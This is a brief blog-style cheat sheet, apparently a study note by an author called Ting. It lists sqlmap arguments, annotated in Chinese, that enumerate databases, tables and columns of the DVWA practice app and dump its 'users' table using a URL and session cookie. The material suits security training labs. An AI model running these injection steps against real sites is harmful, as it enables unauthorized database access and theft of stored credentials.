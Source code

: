 # Sqlmap


```
-u &#34;[url]&#34; --cookie=&#34;[cookie]&#34; -dbs【获取所有数据库名】
-u &#34;[url]&#34; --cookie=&#34;[cookie]” -D dvwa --tables【获取dvwa中所有表】
-u &#34;[url]&#34; --cookie=&#34;[cookie]” -D dvwa -T users --columns【获取user表中所有列】
-u &#34;[url]&#34; --cookie=&#34;[cookie]” -D dvwa -T users --dump【读取数据】
```

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2023web-sqlmap/  

